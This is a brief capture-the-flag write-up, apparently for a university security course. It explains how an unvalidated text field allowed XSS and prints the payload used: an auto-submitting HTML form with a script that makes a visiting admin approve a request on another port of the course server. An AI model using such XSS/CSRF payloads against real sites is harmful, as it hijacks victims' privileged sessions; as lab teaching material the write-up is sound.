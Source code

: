 ### CTF 6

On the port 5004 of the ctf-fsi.fe.up.pt server there was an text type input with no characters validation and therefore vulnerable to xss.

The main idea was to get an admin to make a post request of the type ../request/{id}/approve from the 5005 port of the same server.

Therefore we created a form similar to the the one in the "Give The Flag" button on the 5005 port  with slight differences and an extra line with a script to automatically run the request on load.


    <form method="post" action="http://ctf-fsi.fe.up.pt:5005/request/{id}}/approve" role="form" target="_blank">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    </form>
    <script>
        document.forms[0].submit();
    </script>

Changes:
* Removed the disabled tag from the input.
* Added target="_blank" in order not to change screen when submitting


![Alt text](images/ctf6.png)